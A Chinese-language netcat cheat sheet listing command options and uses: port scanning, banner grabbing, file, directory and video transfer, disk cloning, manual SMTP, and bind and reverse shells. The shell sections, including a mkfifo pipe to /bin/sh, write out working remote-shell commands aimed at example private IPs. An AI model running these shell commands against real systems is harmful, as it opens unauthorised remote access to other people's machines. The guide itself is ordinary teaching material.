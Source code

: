 # netcat 网络工具中的瑞士军刀

+ netcat 是网络工具中的瑞士军刀, 它能通过TCP和UDP在网络中读写数据
+ 通过与其他工具结合和重定向, 你可以在脚本中以多种方式使用
+ netcat 所做的就是在两台电脑间建立连接并返回两个数据流
    + 你能建立一个服务器, 传输文件, 与朋友聊天, 传输流媒体或者用它作为其它协议的独立客户端

## 选项

```
-h, 查看帮助信息
-d, 后台模式
-e, prog程序重定向, 一旦连接就执行(危险)
-g <网关>, 设置路由器跃程通信网关, 最多可设置8个
-G <指向器数目>, 设置来源路由指向器, 其数值为4的倍数
-i <延迟秒数>, 设置时间间隔, 以便传送信息及扫描通信端口
-l, 使用监听模式, 监控传入的资料
-L, 监听模式, 连接关闭后仍然继续监听, 直到CTR+C
-n, 直接使用IP地址, 不使用DNS反向查询IP地址的域名
-o <输出文件>, 指定文件名称, 把往来传输的数据以16进制字码倾倒成该文件保存
-p <通信端口>, 设置本地主机使用的通信端口
-r, 乱数指定本地与远程主机的通信端口
-s <来源地址>, 设置本地主机送出数据包的IP地址
-t, 使用Telnet交互方式
-u, 使用UDP传输协议
-v, 详细输出, 用-vv将更详细
-w <超时秒数>, 设置等待连线的时间
-z, 使用0输入/输出模式, 连接成功后立即关闭连接, 只在扫描通信端口时使用
-q <秒数>, 接收到EOF后隔多长时间退出
```

## Usage

### 端口扫描
可以运行在TCP或者UDP模式, 默认是TCP, -u参数调整为UDP <br/>
```
nc -z -v -n -w 5 172.31.100.7 21-25
//这个命令会打印21到25所有开放的端口

nc -v 172.31.100.7 21
//一旦发现开放的端口, 使用netcat连接服务抓取banner
//Banner是一个你连接的服务发送给你的文本信息
//当你试图鉴别漏洞或者服务的类型和版本时, Banner信息非常有用
//但并不是所有服务都会发送Banner
```

### 正向连接
-c string, 连接后执行一条shell命令 <br/>
-e filename, 连接后运行一个文件 <br/>
Server(A机器:172.31.100.7) <br/>
```
nc -l -p 2222 -e /bin/sh //linux
nc -l -p 2222 -e cmd.exe //windows
```
Client(B机器:172.31.100.23) <br/>
```
nc 172.31.100.7 2222
```

### 反向连接
Server(A) <br/>
```
nc -vv -l -p 2222
```
Client(B) <br/>
```
nc -e /bin/sh 172.31.100.23 2222 //linux
nc -e cmd.exe 172.31.100.23 2222 //windows
```

### Chat Server
Server(A) <br/>
```
nc -l -p 1567
//netcat命令在1567端口启动了一个tcp服务器
//所有的标准输出和输入会输出到该端口, 输出和输入都在该shell中展示
```
Client(B) <br/>
```
nc 172.31.100.7 1567
//不管你在机器B上键入什么都会在机器A上
```

### 文件传输
Server(A) <br/>
```
nc -l -p 1567 < file.txt
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 > file.txt
//在A机器创建服务器并且重定向输入文件为file.txt
//当B机器连接到A, A发送文件内容, B保存文件内容到file.txt
```
Server(B) <br/>
```
nc -l -p 1567 > file.txt
```
Client(A) <br/>
```
nc 172.31.100.23 1567 < file.txt
//发送文件从A到B, 但是服务器创建在B上
```
### 目录传输
Server(A) <br/>
```
tar -cvf - dir_name | nc -l -p 1567
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 | tar -xvf -
//在A服务器上, 创建一个tar归档包并通过-在控制台重定向它
//然后使用管道, 重定向给netcat
//在客户端通过netcat下载归档包
```
Server(A) <br/>
```
tar -cvf - dir_name | bzip2 -z | nc -l -p 1567
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567 | bzip2 -d | tar -xvf -
```

### 加密通过网络发送的数据
Server(A) <br/>
```
mcrypt --flush --bare -F -q -m ecb < file.txt | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | mcrypt --flush --bare -F -q -d -m ecb > file.txt
```

### 流视频
Server(A) <br/>
```
cat video.avi | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | mplayer -vo x11 --cache 3000 -
```

### 克隆一个设备
Server(A) <br/>
```
dd if=/dev/sda | nc -l -p 1567
```
Client(B) <br/>
```
nc 172.31.100.7 1567 | dd of=/dev/sda
```

### 手动使用SMTP协议通信
```
nc localhost 25 << EOF
HELO host.example.com
MAIL FROM: <user@host.example.com>
RCPT TO: <user2@host.example.com>
DATA
Body of email.
.
QUIT
EOF
```

### 通过代理服务器连接
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
//使用10.2.3.4:8080这个代理服务器, 连接到host.example.com的42端口
```

### 使用Unix Domain Socket
```
nc -lU /var/tmp/dsocket
//建立一个Unix Domain Socket, 并接收资料
```


## 高级用法

### 不停监听模式(有的nc命令是-k参数)
···
nc -L -p 80 > logs.txt //开启并不停的监听80端口, 直到CTR+C, 同时把结果输出到logs.txt
nc -L -p 80 < files.txt //同时把files.txt文件内容送入管道中
···

### 特殊打开shell方式
Server(A) <br/>
```
mkfifo /tmp/tmp_fifo  //创建fifo文件
cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l -p 1567 > /tmp/tmp_fifo
//从网络收到的输入写入到fifo文件中
//cat命令读取fifo文件并将其内容发给sh命令
//sh命令进程收到输入并把它写回到netcat
//netcat通过网络发送输出到client
//(管道命令平行执行, fifo文件用来替代正常文件, 因为fifo使读取等待,
//如果是一个普通文件, cat命令会尽快结束并开始读取空文件)
```
Client(B) <br/>
```
nc -n 172.31.100.7 1567
```
在客户端会有一个shell提示符 <br/>

### 其他用途
```
1. 使用-t选项模拟Telnet客户端
2. HTTP客户端用于下载文件
3. 连接邮件服务器, 使用SMTP协议检查邮件
4. 使用ffmpeg截取屏幕并通过流式传输分享
只要你了解协议就可以使用netcat作为网络通讯媒介, 实现各种客户端
```

### Remarks
```
cmd编码支持utf-8, chcp命令
chcp  //查看当前编码, 默认为936(GB2312)
chcp 65001  //切换为UTF-8, 活动代码页为65001
```
